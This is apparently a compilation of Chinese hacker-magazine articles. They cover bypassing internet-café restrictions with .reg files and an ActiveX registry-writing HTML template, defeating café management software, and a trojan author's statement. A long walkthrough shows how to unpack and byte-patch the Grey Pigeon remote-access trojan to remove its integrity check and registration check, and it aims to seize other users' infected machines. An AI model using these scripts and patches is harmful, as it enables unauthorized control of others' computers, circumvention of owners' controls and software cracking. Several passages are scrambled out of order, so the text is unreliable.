[HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]
"NoNetHood"=dword:00000000
```

就是 DWORD 值 NoNetHood 决定了是否显示“网上邻居”。运行你自己编写的 reg 文件看看，没有问题了吧？

#### 7. 让“运行”恢复自由

在“开始”菜单中的“运行”真是个不错的选项，利用它我们可以运行各种程序，非常的方便。比方说，输入 regedit 就可以打开注册表编辑器，输入 winword 就可以打开 WORD。可惜，在网吧中你是无法享受到这份快捷与方便的，因为网吧中会将这个对它们来说致命的菜单项给禁用了。有压迫就有反抗，让我们恢复“运行”菜单的自由！编写如下内容的 reg 文件即可：

```
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]
"NoRun"=dword:00000000
```

注意，在运行该后请注销当前用户，或重新启动电脑。

#### 8. 让“Internet 选项”可用

IE 的“工具”菜单中的“Internet 选项”可以说是 IE 的核心，在这里面可以进行各种关于 IE 的设置，而 IE 又是大家上网常用的工具，网吧中一定会将“Internet 选项”给禁用，这样，当你点击“工具”菜单后看到的“Internet 选项”将出现一个对话框，提示你该选项不可用（图 3）！只要编辑如下内容的 reg 脚本，就可以使该菜单项恢复本色，重新亮起来！编写如下内容的 reg 脚本即可：

```
REGEDIT4

[HKEY_USERS\.DEFAULT\Software\Policies\Microsoft\Internet Explorer\Restrictions]
"NoBrowserOptions"=dword:00000000
```

运行这个 reg 文件就可以使用“Internet 选项”

#### 9. 在 IE 中恢复“源文件”选项

最初网页总意代码出现时，大家都惊诧于它的威力，今天的我们当然已经见怪不怪了。所以，如果网吧中的 IE 浏览器其“查看”菜单中的“源文件”选项不可用，并没有引起大家的太多关注。因为和恶意网页一样，它的主要原理还是修改注册表。但是该选项被禁用实在是很烦人，它使得我们无法查看网页源代码，非常的不方便，所以我们要“干掉”它！解决办法是编写如下内容的 reg 文件即可：

```
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Internet Explorer\Restrictions]
"NoViewSource"=dword:00000000
```

注意，请关闭所有浏览器，之后再运行该 reg 文件。再打开 IE 看看，“源文件”选项可以使用了！

#### 10. 恢复下载文件功能

网吧中为防止大家胡乱下载软件，会禁止下载文件。所以这也是我们要突破的防线之一，编写一个如下内容的 reg 文件即可解除锁定：

```
REGEDIT4

[HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3]
"1803"=dword:00000000
```

编辑完后保存文件，运行这个 reg 文件就可以恢复下载功能！在上述注册表文件中，DWORD 值“1803”的键值为 3 表示禁止下载文件，为 0 则允许下载。

#### 11. 让“文件夹选项”可以使用

不知大家注意过“开始”菜单中“设置”级联菜单中的“文件夹选项”没有？该选项其实就是“资源管理器”中“查看”菜单下的“文件夹选项”（Win2000/XP 中为“工具”→“文…”）

## 12.让DOS方式可用

网吧中禁止DOS方式是通过修改注册表来完成的。其实就是在注册表：

HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Policies\WinOldApp 下，新建DWORD值“Disabled”，把键值设为1，则“MS-DOS方式”被禁止；如果再新建DWORD值“NoRealMode”，把键值设为1，则DOS实模式被禁止。如果你想进入DOS中，就会弹出一个如图所示的对话框（图4），提示无法进入DOS。明白了原理，就可以用上面提到过的Reg文件来解除对DOS的锁定，编写如下代码：

```
reg
REGEDIT4

[HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Policies\WinOldApp]
"Disabled"=dword:00000000
"NoRealMode"=dword:00000000
```

运行这个 reg 文件就可以让DOS方式可以使用了。

## 二、制作一个可以解除限制的通用“模板”

大家已经看出来了，文中所用的方法主要是使用Reg脚本，虽然在文章中我已经告诉过大家如何突破Reg文件被禁用的方法，但是多一手准备总是好一些，所以在文章的最后再告诉大家一个利用HTML文件来解决这类问题的通用方法。针对以上限制的具体内容就不再逐一写上了，以给注册表编辑器解锁为例，在此给大家提供一个“模板”，只要套用该“模板”，就可以解决上述问题！

具体方法是：用IE打开一个网页，然后查看里面的源代码，接下来把里面的内容全部删除，输入下面这些内容，然后点击“文件”菜单中的“保存”，保存该文件，接下来按下F5键刷新即可。内容如下：

```
html
<html>
<body>
<script language="JavaScript">
var shl=new ActiveXObject("Wscript.shell");
shl.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System\\DisableRegistryTools",0,"REG_DWORD");
alert("已经成功解除了限制!");
</script>
</body>
</html>
```

按F5键刷新之后，会弹出一个对话框，上面写着：“该网页上的某些软件（ActiveX控件）可能不安全。建议您不要运行。是否允许运行？”（图5），这是由于网吧中的安全设置都比较高，所以IE会弹出这个对话框。由于是我们自己写的代码，自然清楚不会有什么危险，所以可以放心大胆地点“是”，这时会弹出另一个对话框，上面写着：已经成功撤除了限制！如图所示（图6）。运行注册表编辑器试试，已经解锁成功了！

本文中关于修改注册表来解决问题的地方都可以使用这个方法，只要将第五行“shl.RegWrite”括号内的内容改为你要修改的注册表项就可以了。要注意的是在里面中一定要用双斜杠“\\”，而且四、五、六这三行后面的分号“;”不可缺少。

好了，现在你在网吧中上网就可以非常自由了，尽情体验互联网给我们带来的快乐吧！

# 网吧管理新秀——计算机限制

各位网吧管理员在用惯了美萍、万象以后是否想过要换一款网吧管理软件呢？毕竟，美萍、万象大家最熟悉不过了，破解的方法随处可见。那么，下文作者一水向各位管理员推荐一款优秀的网吧管理软件——计算机限制。

文／一水

转眼间，接触电脑已经近两年了，技术上没有什么突飞猛进，眼睛的度数倒是见长，不过在网上也认识了许多真诚的朋友。一日，一个在网吧帮忙的朋友让我帮忙，说是想换一个网吧管理软件，于是我开始在浩瀚的互联网中搜索，还别说，真找到了几款不错的管理软件。经过比较，我还是觉得笨鸟先黑站长写的“计算机限制”比较不错，所以今天给大家介绍介绍。

首先到它的老家把它 down 下来：http://www.benhack.com/SetupBenhack.zip，解压后安装，很简单。之后会在桌面上生成一个书型的图标，下面先给大家大体介绍一下：

- 1. 绑定 IE 首页和 IE 标题，禁止恶意网站更改；
2. 自定义不可开机时间，如下班时间不能开机。还可以自定义不可开机日期，如国庆节不可开机 5 天；
3. 自定义屏幕锁定和释放时间，限制使用时间；
4. 屏蔽 Ctrl－Alt－Delete 热键，禁止非法关机；
5. 自定义屏蔽桌面、任务栏和“开始”按钮；
6. 自定义一般用户软件和管理工具，限制用户不能使用别的软件……

双击“运行”，首先出现欢迎界面，不用理会，直接点击“下一步”就可以（如果你不想……）。设置，也可以点击“关闭”）。之后来到“浏览器选择”选项菜单，如图1所示。默认的是IE浏览器，如果你是其他浏览器也可以设置，主要功能是“绑定首页地址”和“绑定IE标题”，防止那些非法网站的破坏。

如果你想在某个时间段放假或者不开机器的话，可以通过点击“下一步”进入到“定时程序设置”菜单，如图2所示。在这里，你主要可以设置不开机的时间或日期之类的选项。如上班时间不能开机，或者是国庆节期间不可开机5天！（除了此功能，还可以防止病毒的发作，不过，好像没有人愿意自己的爱机存在病毒吧，早杀掉了）。当然，你还可以自定义屏幕锁定和释放时间，限制使用时间，屏幕一旦被锁住，必须输入管理员密码才可以解锁，非常适合无人管理的计算机。

当然，为了防止那些预计搞破坏的家伙通过重新启动计算机来强行关闭程序，该软件还特地增加了屏蔽 Ctrl-Alt-Delete 热键，禁止非法关机的功能。如图3所示。怎么样？想得很周到吧。当然，你也可以恢复被屏蔽的热键。

不过，为了防止那些无聊的家伙，我们还可以进一步进行设置，如图4所示，以达到屏蔽桌面、开始菜单、运行之类的功能……可不要太过啊，要不然，谁还来你这上网啊。

如果你想限制某些软件的使用，也可以禁止使用这些软件，如图5、图6所示。因为现在网络的普及，高手到处都是，他们可以利用一些很平常的软件来破坏你的管理软件。当然，你也可以限制管理工具的使用。

好了，最后设定管理员密码，如图7所示。好了，大功告成了，怎么样？很简单吧？还不赶快试试？

# 网吧破解的两个小技巧

文／冷月

我们知道，破解网管软件的途径有二：一是在 Windows 环境下结束它的进程；二是修改网管软件所在的文件夹的文件夹名，令电脑重启后无法加载它，也就达到我们破解的目的了。

下面介绍的是万试万灵的“绝招”。打开 IE，选菜单栏的“帮助”->“目录和索引”，这时出现了帮助界面，对，就是帮助的“跳至 URL”（大名鼎鼎的 Windows 2000 输入法漏洞就是利用它）。点帮助文档最左上的图标（或者按 Alt+Space），选中“跳至 URL”，在出现的对话框中一个路径一个路径地查，如果查不到（我就曾经遇过），就是网管软件所在的文件夹被隐藏了，我们知道，要显示隐藏文件只要找到“文件夹选项”，选中“查看”标签中的“显示所有文件和文件夹”就可以了，可是去哪里找“文件夹选项”呢？看我的，在“跳至 URL”对话框中输入“C:\windows\system”（假定 C 盘为系统所在的盘符），回车，在帮助界面打开了的 system 文件夹，找到 desktop.cpl，双击运行它，选“Web”标签，“文件夹选项”就在眼皮下！

最后要介绍的是解除禁止下载的技巧：第一步，用上面的方法破解了网管软件；第二步，到“%systemroot%\system”下找到 inet.cpp，把它改为 inetcpl.cpl，双击运行它，即打开了 Internet 选项，在“安全”标签选“自定义级别”，在出现的安全设置对话框中选中文件下载“启用”，确定。第三步，下载文件的时候，选“保存”有时还是仍然会提示不允许保存（可能在注册表限制），这时可以在下载对话框中选“打开”，这时文件会被保存在 IE 临时文件夹。

# 关于所谓“收费版冰河”的声明

文／冰河

“冰河”的最终版本是 2.2B 版，而且在三年前（2000 年 4 月）已经彻底停止开发了。其他的 3.0、5.0、v60、v70、v80、2000、xp 等所有高版本及各种“专版”都是别人利用资源修改工具或 32 位编辑器修改所得，并未征得本人同意。所做的修改主要集中于版本号或作者、主页等明文信息，或者是类似把“主机没有响应”改成“硬盘已经损坏”等恶作剧信息，实际功能上没有任何改变，与 2.2 版本完全相同。

一些朋友出于对“冰河”程序的厚爱或者好奇等简单目的对“冰河”进行“升级”，对此我只能一笑置之，也没打算如何计较。原版“冰河”的使用说明中明确提到“作者允许并鼓励自由传播，但禁止用于商业用途或在传播的过程中以任何理由收取费用”，但最近却听说一个叫“冰河 V60 工作室”的网站利用这样“升级”出的“冰河”程序招收所谓“冰河黄金版”会员并收取费用。类似的骗钱网站似乎不只一处，无奈之下，不得不浪费几天时间写了一个小程序来应付这些与人品有关的无聊事情（详见光盘软件声明后的“冰河陷阱”使用说明）。

所有打着“冰河论坛”、“冰河主页”、“冰河工作室”等旗号的网站及站内成员行为均与本人无关，所有高于 2.2B 版以及除“DARKSUN 专版”以外的其他专版“冰河”程序其实都是“冰河 2.2 DARKSUN 专版”。欢迎大家就网络安全或木马相关的技术问题来我们的网站“安全焦点”（www.xfocus.net）进行讨论，但谢绝所有与“冰河”或“冰河陷阱”操作有关的问题，操作相关问题请直接给我来信（glacier@xfocus.org），或者到我的朋友孤独剑客的论坛（bbs.janker.org）“Beginner 乐园”版发贴讨论。

# 全面解读反弹端口木马灰鸽子

文／沧浪客

灰鸽子是一款远程管理软件，它有许多突破性的功能，非常的强悍，虽然杀毒软件可以查杀它的部分版本，但它的升级速度非常快，作者只要发现该木马能被杀毒软件查杀，就立刻升级软件，所以总有一款灰鸽子逍遥自在地飞翔于杀毒软件管辖范围之外！为了能使大家更清楚地了解该软件，笔者写了此文，希望能加深大家对它的了解。

## 一、灰鸽子的主要特点和功能

- 1. 反弹端口技术和新的 IP 定位技术。所谓的“反弹端口”，就是让木马的服务端主动去找客户端来连接，这样就突破了局域网可以连出去但不能连进来的传统规则。而服务端在广袤的网络中查找客户端的方法就是通过客户端的 IP 来定位的。事实上，著名的木马网络神偷也采用了反弹端口技术，但网络神偷为了读取客户端的 IP 采用的是利用主页空间的办法，即每次打开客户端的时候，都会把自己的 IP 传送到主页空间来供服务端读取。而灰鸽子在这种方法的基础上做出了大胆的变革，它不再利用传统的主页空间的方式来读取客户端 IP，而是利用了免费的二级域名，让这个域名指向自己的客户端 IP 地址，灰鸽子服务端只需去读取一个固定的免费域名就可以轻松找到客户端地址了。当客户端 IP 发生变化时，只需在客户端点击“更新 IP 地址”，就可以把自己的 IP 地址传递给辛辛苦苦潜伏的服务端。灰鸽子是第一个使用域名来保存客户端 IP，使服务端自动上线可以启动或停止服务器某项服务！

- 2. 具备可视化的远程注册表操作功能（图1）。

- 2. 用灰鸽子修改远程注册表就像在本地操作一样直观、方便，极具破坏性。大家可能以为这没什么了不起，“老远”的冰河都可以做得到的！哈哈，如果你这么想那你就错了，冰河对注册表的操作可没有这么直观——每次我都得一个字符、一个字符地敲击出来！对了，灰鸽子的这个特点可能是吸收了著名的木马 WAY 的特点，WAY 最为木马高手称道的地方就是它的远程注册表操作功能，而灰鸽子在这方面有过之而无不及！

- 3. 服务端程序的自我防护能力更强。不仅增加了监听端口（备用端口可以在主监听端口失效时自动打开提供服务），而且还可以在机器不上网时关闭监听端口来躲过一些依靠端口分析的反黑工具的追踪，以达到隐藏自己的目的；同时，灰鸽子还具备服务端图标自定义及欺骗对话框设置功能，比方说提示你文件错误，或弹出个记事本貌似运行成功了，让人防不胜防。

- 4. 灰鸽子最可怕的地方在于它的定时炸弹，因为你不知道它会什么时候发作，发作后可是会删除系统、格式化硬盘，这招很像病毒。所以，大家发现灰鸽子后一定要在第一时间删除它。这里教大家一个防止别人格式化你硬盘的小技巧：那就是在每一个分区上都运行一个程序（任意程序），因为有程序运行的话别人就没法格式化你的硬盘了。比如说，你可以把防火墙装在 D 盘，杀毒软件装在 E 盘，QQ 运行在 F 盘，IE 运行在 C 盘。

- 5. 特殊的 MS-DOS 模拟功能（图 2）。作者把原本为命令行下的操作变为图形界面的形式，这一来就方便了那些初学者。从另一个角度来看也使灰鸽子更流行、更易用，对大家的威胁更大。而且在 MS DOS 控制台中还具有“NT 类命令”，可以远程启动对方的一系列服务，如 IPC、AT、NET USE 以及终端等。至于在肉机上运行各种极其危险的 DOS 命令操作，如 Deltree、Format 等更不在话下了。

- 6. 强大的远程控制功能（图 3）。灰鸽子的全部“精华”可以说都在“远程控制命令”中，它可以对远程主机上的“缓冲口令”、“历史口令”、“CMOS”口令和“击键记录”进行记录，中木马者的一切密码资源都会在对方的掌握之中。而且还可以使用灰鸽子共享对方的电脑硬盘，如果把你的“肉鸡”在网上公布，则他的硬盘就成为所有人的最爱了！

- 7. 先进的文件管理器。操作远程机器如同本地电脑一样方便、快捷，和“老”木马冰河很像。任选一个文件，点击右键，立刻会出现详细的操作菜单，可以复制、删除、下载和运行文件。不过，灰鸽子不具备像另一款著名的木马“网络公牛”那样修改文件属性的功能，还好还好。

- 8. 灰鸽子“瑜前正式版”还具有自动关闭“天网”、“金山”、“瑞星”、“KV 反黑王”等防火墙功能！熟悉木马的朋友都知道，以前只有木马黑洞系列（黑洞 2000 和黑洞 2001）和“广外女生”具有关闭防火墙功能，现在灰鸽子也加入其中，大家上网时可要看好自己的防火墙哦。

- 9. 其他功能。灰鸽子还具备 ICMP 攻击和与被控电脑进行文字聊天和语音通讯功能，尤其是进行文字聊天和语音通讯功能，以前只有黑洞 2001 具有该功能，现在居然也被搬到灰鸽子身上！如果想和女友远程聊天，可以试试该功能，很有意思哦。

- 10. 灰鸽子存在的功能限制和问题。虽然灰鸽子很强大，但个别版本有运行不稳定的毛病，而且未注册版本的灰鸽子有功能限制，有部分功能不能使用，而注册该软件要花费 100 元人民币！除了功能限制以外，灰鸽子还会在你使用的过程中时不时地弹出“注册用户不会弹出此对话框”的对话框，提醒你注册。其实这些都不是问题，只要你花钱注册就没有任何问题了，但可怕的是，灰鸽子有个漏洞，可以使普通用户在没有正确地连接密码的情况下，也可以进入任何网上的中了灰鸽子的计算机！当然，这个所谓的漏洞你得想一定的办法给它“挖”出来才行，这样你就可以拥有无数的“肉鸡”了！

本文的主要目的就是突破灰鸽子的连接密码限制，让我们可以随意控制网络上的灰鸽子！当然，我们顺便也会谈到怎样得到它的全部功能，使大家可以更好地使用该软件。另外，由于灰鸽子十分的危险，在此也给出了查杀方法，希望能对大家有所帮助。

## 二、给灰鸽子脱壳

要想得到灰鸽子的全部功能并挖出它的漏洞，就得扒下它的“马甲”——给灰鸽子脱壳。因为我使用的是灰鸽子[辐射正式版]1.0，该软件用 ASPack 压缩过，里面的代码无法直接反汇编到，因此必须给它脱壳才行，这样才能方便我们修改软件，进而得到它的全面功能。

很多初学者总会想你怎么知道软件用什么加壳的呢？我也无法看一眼就能得出结论。其实，有专门的侦测加壳软件如 F1、Language2000 等可以帮助我们，它们会告诉你目标软件是否加壳，以及采用何种软件加壳，然后你就可以使用脱壳软件如 Procdump 等来给目标软件脱壳。

以本文中的灰鸽子[辐射正式版]1.0为例，运行 Language2000，用它打开灰鸽子的主文件 H_Client.exe，检测结果表明该软件用 ASPack 压缩过的，所以我们可以使用专门的脱壳 ASPackdie 来给它脱壳。ASPackdie 使用起来非常简单，运行 ASPackdie，找到灰鸽子的主文件 H_Client.exe，ASPackdie 就会自动给它脱壳（图4），并保存为 unpacked.ExE 文件。比较一下脱壳前后文件的大小，脱壳前文件大小为 709KB，脱壳后文件大小为 2.69MB。现在我们把 H_Client.exe 改名为 H_Client1.exe 备用，把 unpacked.ExE 改名为 H_Client.exe，以后我们提到的 H_Client.exe 文件都指的是脱壳后的文件。

## 三、全面解决灰鸽子

### 1. 解决灰鸽子的自我检测问题

问题之所在：脱壳后运行灰鸽子，会出现一个对话框，提示：文件已经被非法修改！这可能是由病毒感染或破解版软件引起的！软件将终止运行！请重要安装本软件！（图5）。

点击对话框上的“确定”，灰鸽子自动退出，无法运行该软件。看来，一旦文件大小与初始长度不一样，灰鸽子就会拒绝运行。所以这一步，我们要解除软件的自校验问题。

分析：既然运行灰鸽子会弹出一个对话框，那么它很可能调用了 DialogBox、CreateDialog、MessageBox 等函数。分别下断点试试就知道灰鸽子到底调用哪个函数了。只要能找到调用此对话框的 CALL，在离它不远处应该有个关键的跳转语句，只要改动此跳转语句就可以使程序运行，而那个讨厌的对话框则可以去掉，让它不显示。

步骤：运行动态解密软件 TRW2000，同时按下 Ctrl+N 呼出 TRW2000，输入 BPX MessageBoxA，然后运行灰鸽子的主文件 H_Client.exe，会被 TRW2000 中断下来，按 F12 键一下，会出现对话框提示文件被修改，点击对话框上的“确定”按钮，又进入 TRW2000 的调试窗口。在该窗口中，按 F10 键 9 下，你会看到如下代码（为了使大家对反汇编后的代码能看得更明白，我加了注释，并且没有在 TRW2000 中复制代码，而是用 W32Dasm 反汇编后的代码，W32Dasm 反汇编后的代码可读性更好些）：

```
asm
* Possible StringData Ref. from Code Obj -> "灰鸽子自我检测!"  // 很明显，以下代码是灰鸽子进行自我检测用的，你也可以用 W32Dasm 直接搜索这些文本
00572E47  BA8C315700    mov edx, 0057318C
00572E4C  E8274FEFFF    call 00467D78
00572E51  8BC7          mov eax, edi    // 把 EDI 传送到 EAX 中
00572E53  E89044EFFF    call 004672E8  // 就是这个 CALL 会显示对话框
00572E58  84C0          test al, al     // 按 F10 键 9 下后，光标停留在这一行
```

## 灰鸽子远程管理软件漏洞分析

```
asm
:00572E5A 750C        jne 00572E68    // ★★如果跳走则执行程序，所以这里必须跳走
:00572E5C 8B06        mov eax, dword ptr [esi]
:00572E5E E81DD9EFFF  call 00464780
:00572E63 E911030000  jmp 00573179    // 如果来到这一行就没有希望了
```

H_Client.exe，会出现“灰鸽子用户登陆”窗口（图7），在该窗口中我们可以看到对灰鸽子用户来说有“免费用户”和“注册用户”之分。它

解决问题的方法：从上面的代码可以得出这样的结论：只要不执行偏移地址00572E53处的CALL，灰鸽子就不会显示那个自校验对话框。如果把偏移地址00572E5A处的程序代码`jne 00572E68`由不跳转改为跳转，就可以使灰鸽子运行。所以，我们可以用16进制文件编辑器UltraEdit修改灰鸽子的主文件H_Client.exe，解决这个问题。



图7

运行UltraEdit，用它打开灰鸽子的主文件H_Client.exe，然后按Alt+F3调出“查找”对话框，在该对话框中输入“E89044EFFF”，这就是偏移地址00572E53处的`call 004672E8`的机器码，点击“下一个”按钮，会找到惟一的一处结果（图6），把它改为`9090909090`（90代表空操作，即什么也不做的意思），就可以解决掉对话框问题。接下来，在你刚刚找到的地址后面隔2个字节，把原来的内容`750C`改为`EB0C`，也就是把偏移地址00572E5A处的代码`jne 00572E68`改为`jmp 00572E68`，让它无条件地跳转走，就可以使灰鸽子运行起来。

们的区别是免费用户有功能限制和不时地会出现NAG窗口，注册用户则无此限制！如果你在登录时选择了“注册用户”，则必须输入“用户名”和密码，如果密码不正确，则会显示“网络验证失败，请检查网络！”所以，我们下一步的目的就是解决这个问题，成为注册用户！

分析：通过上面的提示“网络验证失败，请检查网络！”，可以知道灰鸽子会通过网络验证你输入的用户名和密码，本来这个问题很不好解决，但由于这个提示信息的存在使我们有机可乘。只要反汇编灰鸽子，查找相应的文本信息，从而找到关键比较地方，改变判断条件，就可以解决这个问题。



图6

步骤：运行W32Dasm，用它反汇编H_Client.exe，反汇编完毕以后，点击“查找”菜单下的“查找文本”，在出现的对话框中输入“注册用户”（为什么查找它呢？我们不是想成为注册用户吗？那当然得查找和“注册用户”这一敏感内容相关的代码了），点击“查找下一个”，会看到如下所示代码：

保存修改结果，退出UltraEdit，运行H_Client.exe，没有提示窗口出现，灰鸽子自动运行了！大功告成，到这里就解决了灰鸽子的自我检测问题。

## 2. 成为注册用户

问题之所在：自我检测问题解决后，运行

```
asm
:0053DAB2 E80573ECFF  call 00404DBC    // 这里就是网上验证的核心CALL
:0053DAB7 755D        jne 0053DB16    // ★★这里跳走就会以“免费用户”身份运行程序
:0053DAB9 A1F49D5700  mov eax, dword ptr [00579DF4]
:0053DABE 8B00        mov eax, dword ptr [eax]
```

```
text
:0053DAC0 C6805509000001  mov byte ptr [eax+00000955], 01 // 把1送入[eax+00000955]中
:0053DAC7 A1F49D5700      mov eax, dword ptr [00579DF4]
:0053DACC 8B00           mov eax, dword ptr [eax]
:0053DACE 8B8010050000   mov eax, dword ptr [eax+00000510]
:0053DAD4 8B8020020000   mov eax, dword ptr [eax+00000220]
* Possible StringData Ref from Code Obj -> "网络验证身份成功!程序以注册用户身份运行!" // 向上找关键
```

```
text
:0053DC8E 8B00           mov eax, dword ptr [eax]
:0053DC90 8B8010050000   mov eax, dword ptr [eax+00000510]
:0053DC96 8B8020020000   mov eax, dword ptr [eax+00000220]
* Possible StringData Ref from Code Obj -> "网络验证身份成功!程序以注册用户身份运行!" // 又来到这里
```

从代码中的“网络验证身份成功!程序以注册用户身份运行!”这一行，可以知道灰鸽子是在它前面进行判断是否以注册用户身份运行程序的，所以得向上看找关键比较的地方。在上面的代码中只有偏移地址0053DAB7那一行可以跳过这里，所以不能让它跳走。偏移地址0053DAB7上面一行经检查就是网上验证的核心CALL。

解决问题的方法：运行UltraEdit，用它打开灰鸽子的主文件H_Client.exe，然后查找“E80573ECFF755D”，找到后把它改为E80573ECFF9090，这样就可以让偏移地址0053DAB7那一行永远也不跳走，因为它已经变为两个NOP(空操作)了！

到这里还没有完全解决掉网上校验问题，因为在灰鸽子中还有一处判断的地方。怎么知道的呢？在W32Dasm中找到上面的代码后，按F3键再次查找“注册用户”这个关键词，就会又找到一段代码，仔细看看关键字就知道了，代码如下所示：

```
text
:0053DC6E 8B55D4         mov edx, dword ptr [ebp-2C]
:0053DC71 8B45F4         mov eax, dword ptr [ebp-0C]
:0053DC74 E84371ECFF     call 00404DBC // 这儿就是网上验证的核心CALL
:0053DC79 7556           jne 0053DCD1 // ★★这里跳走就会以免费用户身份运行程序
:0053DC7B A1F49D5700     mov eax, dword ptr [00579DF4]
:0053DC80 8B00           mov eax, dword ptr [eax]
:0053DC82 C6805509000001 mov byte ptr [eax+00000955], 01 // 把1送入[eax+00000955]中
:0053DC89 A1F49D5700     mov eax, dword ptr [00579DF4]
```

所以，要最终解决网上校验问题，还要用UltraEdit打开H_Client.exe，查找“E84371ECFF7556”，找到后把它改为E84371ECFF9090，这样就彻底解决了网上校验问题，我们成为注册用户了！

## 3. 去掉提醒注册的对话框

问题之所在：除了上面的那些问题以外，灰鸽子还会显示对话框提示你注册，比如说当你点击“文件”菜单中的“配置服务程序”，会出现“服务程序配置”窗口，一旦点击“生成服务器”按钮，就会出现一个对话框显示：“注册用户登陆后不会出现此对话框！”灰鸽子网站：www.huigezi.net（图8），这样的地方还有几处，所以这一步我们还得将这个对话框解决掉。



图8

分析：只要找到此对话框出现的地方，把关键的跳转给改了就可以解决这个问题。而要找到出现此对话框的地方，还是可以用到“注册用户”这个关键词。

步骤：在W32Dasm中一直查找“注册用户”这个关键词，会找到如下所示代码：

```
text
:0054F921 80B85509000000  cmp byte ptr [eax+00000955], 00 // 比较[eax+00000955]是否为0
:0054F928 7513           jne 0054F93D // ★★这里如果跳转就可以了
:0054F92A 6A40           push 00000040
* Possible StringData Ref from Code Obj -> "请支持正版" // 对话框的标题栏内容
:0054F92C 68A8FD5400     push 0054FDA8
* Possible StringData Ref from Code Obj -> "注册用户登陆后不会出现此对话框！灰鸽子网站：www..."
```

